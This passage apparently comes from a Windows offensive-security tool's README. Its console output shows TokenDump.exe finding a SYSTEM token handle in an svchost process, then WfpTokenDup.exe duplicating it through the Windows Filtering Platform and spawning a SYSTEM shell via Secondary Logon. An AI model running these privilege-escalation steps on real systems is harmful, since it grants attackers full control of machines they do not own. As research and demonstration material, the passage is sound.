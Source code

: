 ```
    [*] Window Manager\DWM-1
    [*] NT AUTHORITY\LOCAL SERVICE
    [*] NT AUTHORITY\ANONYMOUS LOGON
[*] Done.

PS C:\Dev> .\TokenDump.exe -e -H -p 2568 -a system

[>] Trying to enumerate token handles.

[Token Handle(s) - svchost.exe (PID: 2568)]

Handle Session Token User          Integrity Restricted AppContainer Token Type Impersonation Level
====== ======= =================== ========= ========== ============ ========== ===================
 0x2B8       0 NT AUTHORITY\SYSTEM System    False      False        Primary    Anonymous

[+] Got 1 handle(s).
[*] Found 2 account(s).
    [*] dev22h2\user
    [*] NT AUTHORITY\SYSTEM
[*] Done.

PS C:\Dev>
```

Using this information, perform token duplication and spawn token assigned shell with Secondary Logon service as follows:

```
PS C:\Dev> .\WfpTokenDup.exe -p 2568 -v 0x2B8

[*] Target information:
    [*] Process Name : svchost
    [*] Process ID   : 2568
    [*] Handle Value : 0x2B8
[>] Trying to get a WfpAle handle.
[+] Got a WfpAle handle (handle = 0x110).
[>] Trying to register the target object handle to WFP.
[+] Token registration maybe successful.
    [*] Modified ID : 0x00000000000003A5
[>] Trying to fetch the registered token.
[+] Got the registered token (handle = 0x2EC).
[>] Releasing the registered token from WFP.
[+] The registered token is released successfully.
[>] Trying to spawn token assigned shell with Secondary Logon service.
[+] Got a token assigned shell.
[*] Done.
```
